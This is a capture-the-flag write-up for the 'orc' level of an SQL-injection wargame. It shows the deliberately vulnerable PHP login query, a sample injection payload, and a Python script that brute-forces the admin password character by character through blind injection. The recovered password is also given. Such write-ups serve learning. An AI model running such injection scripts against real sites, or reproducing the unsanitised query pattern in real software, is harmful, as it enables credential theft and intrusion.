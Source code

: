 # **Orc**

```shell=
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello admin</h2>";   
  $_GET[pw] = addslashes($_GET[pw]);   
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");   
  highlight_file(__FILE__);   
?>
```

This challenge check two time for determind that is that `TRUE`, cuz to `addslashes()`, we can't bypass second query by special symbol.

So, the solve method is to use sqecial symbol & SQL method to brutal force out the correct password from first query.

Here's sample payload pass the first query but fail in the second one, `?pw=%27 ||mid(pw,1,1)=2%23`.

I got a script can solve this brutal force problem from safflower's blog.

But it doesn't work for me in current python version(?), so I translate the script to fit it.

```
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/orc_47190a4d33f675a601f8def32df2583a.php?pw="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""
 
for i in range(len(Passwd)+1,100):
	for c in list(range(ord("0"),ord("9")+1))+list(range(ord("a"),ord("z")+1))+list(range(128,129)):
		if c == 128:
			print ("[!] Not Found")
			print ("[*] Password: %s~" % Passwd)

		Payload=("'||id='admin'&&mid(pw,%d,1)=0x%x#" % (i,c))
		HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

		if (b"Hello admin" in HTTP.getresponse().read()):
			Passwd+=chr(c)
			print ("[+] Found: %c" % c)

			HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
			if (b"Hello admin" in HTTP.getresponse().read()):
				print ("[*] Password: %s" % Passwd)

			break
```

![](https://i.imgur.com/NOf9K0N.png)

`?pw=295d5844`

BurpSuite can also brutal force down this question, it work in http but not work in https, cuz BurpSuite free version can't view the decode https in it, that make it hard to seperate the valuable feedback from other uselessness.

Futhermore, BurpSuite free version works too slow and unefficient of brutalforcer.
